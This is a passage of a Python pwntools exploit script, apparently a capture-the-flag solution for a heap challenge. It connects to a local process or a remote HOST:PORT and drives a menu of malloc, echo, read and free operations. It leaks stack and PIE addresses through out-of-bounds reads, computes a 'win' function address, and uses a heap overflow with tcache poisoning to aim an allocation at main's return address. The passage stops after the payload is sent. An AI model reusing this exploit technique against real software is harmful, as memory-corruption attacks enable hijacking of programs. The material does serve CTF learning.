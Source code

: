 ```python
    target.sendlineafter(b"Index: ", str(idx).encode())


def echo(idx, offset):
    target.sendlineafter(b": ", b"echo")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Offset: ", str(offset).encode())


def read(idx, size):
    target.sendlineafter(b": ", b"read")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    malloc(0, 0)
    echo(0, 0x28)

    target.recvuntil(b"Data: ")
    stack = int.from_bytes(target.recvline().strip(), "little")
    main_ret_addr = stack + 0x176

    raw_input("DEBUG")
    echo(0, 0x50)
    target.recvuntil("Data: ")
    pie = int.from_bytes(target.recvline().strip(), "little") - 0x2110
    win = pie + elf.sym["win"]

    target.success(f"stack: {hex(stack)}")
    target.success(f"pie: {hex(pie)}")
    target.success(f"win: {hex(win)}")

    malloc(0, 0)
    malloc(1, 0)
    malloc(2, 0)
    free(2)
    free(1)
    # raw_input("DEBUG")
    read(0, 0x1337)

    payload = flat(
        b"A" * 0x20,
        main_ret_addr,
    )
    target.sendline(payload)

    malloc(0, 0)
    # raw_input("DEBUG")
```